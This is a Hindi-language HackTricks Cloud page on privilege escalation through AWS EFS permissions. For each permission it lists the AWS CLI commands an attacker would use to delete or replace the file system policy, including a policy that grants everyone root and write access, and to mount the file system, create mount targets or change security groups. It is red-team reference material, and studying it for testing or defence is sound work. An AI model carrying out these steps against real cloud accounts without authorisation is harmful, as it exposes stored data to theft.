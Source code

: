 # AWS - EFS Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## EFS

EFS के बारे में अधिक **जानकारी** के लिए:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

याद रखें कि EFS को माउंट करने के लिए आपको उस सबनेटवर्क में होना चाहिए जहां EFS उजागर है और उस तक पहुंच होनी चाहिए (सिक्योरिटी ग्रुप्स). यदि यह हो रहा है, तो डिफ़ॉल्ट रूप से, आप हमेशा इसे माउंट कर पाएंगे, हालांकि, यदि यह IAM नीतियों द्वारा संरक्षित है तो आपको इसे एक्सेस करने के लिए यहां उल्लिखित अतिरिक्त अनुमतियां होनी चाहिए।

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

इनमें से किसी भी अनुमति के साथ एक हमलावर **फाइल सिस्टम नीति में परिवर्तन** कर सकता है ताकि आपको इस तक **पहुंच प्रदान की जा सके**, या बस इसे **हटा दें** ताकि **डिफ़ॉल्ट पहुंच** प्रदान की जा सके।

नीति को हटाने के लिए:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
इसे बदलने के लिए:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

इस अनुमति के साथ एक हमलावर **EFS माउंट** करने में सक्षम होगा। यदि लिखने की अनुमति EFS माउंट करने वाले हर किसी को डिफ़ॉल्ट रूप से नहीं दी गई है, तो उसके पास केवल **पढ़ने की पहुंच** होगी।
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
अतिरिक्त अनुमतियाँ `elasticfilesystem:ClientRootAccess` और `elasticfilesystem:ClientWrite` का उपयोग फाइल सिस्टम को माउंट करने के बाद उसके अंदर **लिखने** और उस फाइल सिस्टम को **रूट के रूप में** **पहुँचने** के लिए किया जा सकता है।

**संभावित प्रभाव:** फाइल सिस्टम में संवेदनशील जानकारी का पता लगाकर अप्रत्यक्ष प्रिवेस्क।

### `elasticfilesystem:CreateMountTarget`

यदि आप एक हमलावर हैं जो एक **उपनेटवर्क** के अंदर है जहाँ EFS का **कोई माउंट टारगेट** मौजूद नहीं है। वह इस विशेषाधिकार के साथ अपने सबनेट में बस **एक बना सकता है**:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**संभावित प्रभाव:** फाइल सिस्टम में संवेदनशील जानकारी का पता लगाकर अप्रत्यक्ष privesc।

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

एक परिदृश्य में जहां हमलावर पाता है कि EFS का माउंट टारगेट उसके उपनेटवर्क में है लेकिन **कोई सुरक्षा समूह ट्रैफिक की अनुमति नहीं दे रहा है**, वह **चयनित सुरक्षा समूहों को संशोधित करके इसे बदल सकता है**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**संभावित प्रभाव:** फाइल सिस्टम में संवेदनशील जानकारी का पता लगाकर अप्रत्यक्ष privesc।



<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें।
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
